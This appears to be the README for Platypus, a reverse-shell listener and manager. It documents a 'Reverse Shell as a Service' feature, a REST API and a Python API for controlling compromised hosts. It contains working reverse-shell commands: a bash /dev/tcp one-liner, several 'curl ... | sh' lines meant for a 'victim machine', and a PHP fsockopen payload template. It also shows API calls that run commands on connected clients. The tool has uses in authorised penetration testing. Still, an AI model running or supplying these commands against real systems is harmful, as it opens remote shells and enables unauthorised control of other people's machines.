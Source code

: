 ## Reverse shell as a Service

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/1337 0>&1"` is the equivalent of `curl http://1.2.3.4:1337/5.6.7.8/1337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/1337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:1337`.

### Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

### Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

### What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

### How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",__PORT__);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/...
```

## RESTful API

* `GET /client` List all online clients

```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* [DEPRECATED] `POST /client/:hash` execute a command on a specific client

```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* [DEPRECATED] How to hash?

```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```


## [WIP] Python API

### Connect to Platypus backend

```python
import supytalp
p = supytalp.init("192.168.1.3", 54798)
```

### Start a new reverse shell server

```python
server = p.start("0.0.0.0", 13337)
```

### Fetch clients of a server

```python
clients = server.clients()
```

### Execute command on clients

```python
for client in clients:
    print(client.system("whoami"))
```

### Spawn a interactive shell with a client

```python
client = clients[0]
client.spawn()
```